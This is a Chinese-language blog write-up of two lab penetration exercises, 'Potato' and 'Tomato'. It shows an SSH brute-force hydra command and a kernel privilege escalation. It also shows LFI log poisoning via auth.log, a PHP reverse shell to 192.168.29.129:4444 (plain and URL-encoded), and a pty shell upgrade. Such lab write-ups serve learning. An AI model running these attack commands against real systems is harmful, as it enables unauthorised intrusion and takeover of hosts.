









Potato和Tomato渗透
十一月 08, 2020
Potato渗透
也是经典的dirb和nmap扫一波
nmap的结果

dirb的结果

也就发现了一个info.php能用，访问一些是phpinfo，呃，那再看看nmap，开了7120端口，看看，啥都没有，只能通过hypdra进行爆破咯，呃，账号密码都不知道，只能试试看了
1 | hydra 192.168.1.113 ssh -s 7120 -L /usr/share/wordlists/rockyou.txt -P /usr/share/wordlists/rockyou.txt -t 4 -v -f |
登陆上之后查看uname -a 查看能不能提权
看见内核为ubuntu3.多，这种老版本一般可以直接提，尝试搜索
1 | potato@ubuntu:/tmp$ uname -a |
searchsploit Ubuntu 3.13.0

利用-p指令找到存放位置，之后我们就可以直接拿下exp了，再上传到靶机的tmp目录下（因为tmp目录大部分情况下是777权限

成功拿下！
Tomato渗透
首先经典drib和nmap扫一波

nmap：
1 | nmap -sS -v -T4 -Pn -A -p 0-65535 |

发现8888端口和21，开了其他tcp和ssh的端口,但是都没法用，在info.php下发现文件包含

尝试包含了一下etc/passwd就卡住了，不知道该怎么做。。
这里记录下各个log的文件
1 |
|
根据大佬的payload，其实我们可以知道，在当前环境下我们可以控制的log文件只有auth.log,因为只有个这个日志我们可以操作，比如我们写入一句话，再进行包含的话，不就是执行了命令了吗（这个思路真的骚
所以我们马上操作一波，这里我用xshell脸上·的

马上执行命令：
1 | view-source:http://192.168.29.131/antibot_image/antibots/info.php?image=../../../../../../../var/log/auth.log&cmd=ls |

再之后为了能够传脚本啥的啊，我们执行一波反弹shell：
1 | php -r '$sock=fsockopen("192.168.29.129",4444);exec("/bin/sh -i <&3 >&3 2>&3");' |
urlencode一下
1 | php%20-r%20'%24sock%3Dfsockopen(%22192.168.29.129%22%2C4444)%3Bexec(%22%2Fbin%2Fsh%20-i%20%3C%263%20%3E%263%202%3E%263%22)%3B' |
弹到自己本机上即可。

接下来我们求一个交互式的shell，发现python3可以用，所以接下来用Python打开一个交互式的shell
1 | python3 -c "import pty;pty.spawn('/bin/bash')" |
之后uname -a 看内核，exp一冲就完事了
1 | grep -nr "flag{" / 2>/dev/null 我他妈直接一把梭 |
查看评论